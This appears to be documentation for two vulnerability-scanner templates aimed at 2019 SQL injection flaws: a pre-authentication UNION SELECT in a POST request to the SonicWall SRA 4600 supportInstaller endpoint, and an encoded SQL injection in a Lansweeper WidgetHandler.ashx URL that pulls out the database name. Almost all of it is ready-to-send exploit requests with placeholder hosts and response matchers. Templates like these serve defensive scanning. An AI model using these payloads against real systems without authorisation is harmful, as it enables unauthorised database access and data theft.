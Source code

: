 ## Description

- The SonicWall SRA 4600 VPN appliance is susceptible to a pre-authentication SQL injection vulnerability.
- severity - high
- tags - cve,cve2019,sonicwall,sqli,kev

## Requests

### Step - 1

```
POST /cgi-bin/supportInstaller HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: identity
User-Agent: MSIE
Content-Type: application/x-www-form-urlencoded

fromEmailInvite=1&customerTID=unpossible'+UNION+SELECT+0,0,0,11132*379123,0,0,0,0--

```

### Matchers

**Type - word**

- words
  1. 4220397236
- part - body

---

# Lansweeper Unauthenticated SQL Injection

## Description

- Lansweeper before 7.1.117.4 allows unauthenticated SQL injection.
- severity - critical
- tags - cve,cve2019,sqli,lansweeper

## Requests

- Method - GET

### URL

- {{BaseURL}}/WidgetHandler.ashx?MethodName=Sort&ID=1&row=1&column=%28SELECT%20CONCAT%28CONCAT%28CHAR%28126%29%2C%28SELECT%20SUBSTRING%28%28ISNULL%28CAST%28db_name%28%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%29%2C1%2C1024%29%29%29%2CCHAR%28126%29%29%29
